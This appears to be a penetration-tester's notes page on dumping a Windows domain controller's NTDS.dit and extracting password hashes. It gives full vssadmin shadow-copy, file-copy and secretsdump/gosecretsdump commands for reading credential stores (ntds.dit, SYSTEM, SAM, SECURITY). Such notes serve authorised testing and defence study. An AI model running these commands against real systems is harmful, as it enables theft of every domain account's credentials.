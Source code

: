 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{{%attachments title="Related files" fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Copy NTDS.dit

Path: `C:\Windows\NTDS\ntds.dit`

![example](images/example1.png)

### Copy SYSTEM

Path: `C:\Windows\System32\config\SYSTEM`

Preferably you want to also make a copy of:

* SECURITY - `C:\Windows\System32\config\SECURITY`
* SAM - `C:\Windows\System32\config\SAM`

![example](images/example2.png)

### Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

#### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

#### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
